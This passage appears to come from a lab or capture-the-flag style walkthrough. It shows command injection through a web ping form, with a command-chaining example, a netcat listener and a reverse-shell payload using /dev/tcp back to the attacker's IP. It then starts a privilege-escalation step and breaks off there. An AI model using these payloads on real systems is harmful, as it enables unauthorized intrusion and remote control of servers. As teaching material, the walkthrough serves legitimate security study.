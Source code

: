 ```bash
Steps:

1. Try entering:

ping google.com

You’ll see the ping results on the page.


2. What If We Add Our Own Command?
Using the | symbol, we can chain commands to the server. For example:

ping google.com | whoami

This will tell us the user the server is running as.


3. Inject a Reverse Shell
To control the server, we use a tool called Netcat to set up a listener on our machine:

Command on your machine:

nc -lvnp 4444

-l: Listen for incoming connections.

-v: Verbose mode (shows details).

-p 4444: Specifies port 4444 for communication.



4. In the web console, inject this payload:

; bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1

Replace <YOUR_IP> with your local IP address.



Result: The server connects back to your machine, and you can now execute commands as if you were directly logged into it.




---

Step 5: Privilege Escalation

Goal: Gain full control (root access).

Steps:

1. Identify the Linux Version
Run:

uname -a

This tells us the server is running an old Linux kernel: 2.6.19.



```